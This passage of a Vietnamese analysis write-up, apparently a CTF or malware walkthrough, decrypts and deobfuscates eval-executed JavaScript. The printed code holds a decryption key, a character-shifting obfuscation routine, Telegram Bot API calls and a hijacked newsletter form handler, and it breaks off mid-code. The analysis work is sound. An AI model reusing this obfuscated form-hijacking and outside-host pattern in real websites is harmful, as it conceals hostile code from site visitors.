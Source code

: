 `Ví dụ: CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]] = CryptoJS.enc.Base64.parse`

- Tiếp theo, đoạn `ciphertext` bị `AES encrypt` và `Base64 encode` nên gọi các hàm ra để giải mã rồi dùng `eval` để thực thi trực tiếp
![image](https://github.com/user-attachments/assets/cf2fdfe1-a928-42a2-b79e-aacad4215030)
- `Key` và `IV` được lấy tại đây
![image](https://github.com/user-attachments/assets/66ffc931-65d1-47fc-9164-e6e270bc160e)

Mình nhờ chatgpt viết code python để decrypt toàn bộ (hoặc có thể dùng `Java compiler online`) nhưng mình cũng không hiểu sao có một số chỗ bị lỗi khi decrypt hmm

![image](https://github.com/user-attachments/assets/6aa8ab70-8a3f-46ed-b8ef-52f06dbb4e6e)

Tiếp tục dùng `de4js` để deobf

![image](https://github.com/user-attachments/assets/78ea882d-4c9f-4341-8545-25b5b6618efa)

Chức năng nó khá tương tự đoạn `java` vừa nãy và sau khi deobf toàn bộ thì có được đoạn mã sau:

```javascript
_$_5975 = ['nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==',
           's3cur3k3y',
           'Base64', 'enc', 'toString', '', 'join', 'SHA256', 
           '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=', // Hash to verify
           'Utf8', 'parse', 'decrypt', 'RC4Drop', 'https://api.telegram.org', 
           'fromCharCode', 'onreadystatechange', 'readyState', 'DONE', 'responseText', 
           'text', 'result', 'log', 'replace', 'location', 'Form submitted!', 
           'GET', 'forwardMessage?chat_id=', '&from_chat_id=', '&message_id=5', 'open', 'send']

function G(r) {
    return function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 7 - t) 
        }).join('')
    }(43, 106, 167, 103, 163, 98) + 
    1354343..toString(36).toLowerCase() + 
    21..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    4..toString(36).toLowerCase() + 
    32..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -39) 
    }).join('') + 
    381..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 60 - t) 
        }).join('')
    }(42, 216, 153, 153, 213, 187);
}

document.getElementById("newsletterForm").addEventListener("submit", function(e) {
  e.preventDefault();
  const emailField = document.getElementById("email");
  const descriptionField = document.getElementById("descriptionField");
  let isValid = true;
  if (!emailField.value) {
    emailField.classList.add("shake");
    isValid = false;
    setTimeout(() => {
```